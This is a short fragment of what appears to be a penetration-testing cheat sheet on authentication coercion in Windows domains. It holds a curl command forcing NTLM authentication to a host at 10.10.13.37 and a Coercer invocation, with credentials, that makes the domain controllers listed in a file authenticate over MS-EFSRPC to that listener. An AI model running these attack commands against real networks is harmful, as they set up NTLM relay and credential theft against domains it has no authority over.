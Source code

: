 ```
Cmd > curl.exe -i --ntlm -u : http://10.10.13.37/index.html
```




## Tools



### Coercer

- [https://github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)

```
$ coercer coerce -u snovvcrash -p 'Passw0rd!' -f dc.txt -l 10.10.13.37 [--filter-pipe-name efsrpc] [--filter-method-name EfsRpcDuplicateEncryptionInfoFile] --auth-type smb --always-continue --delay 1
```
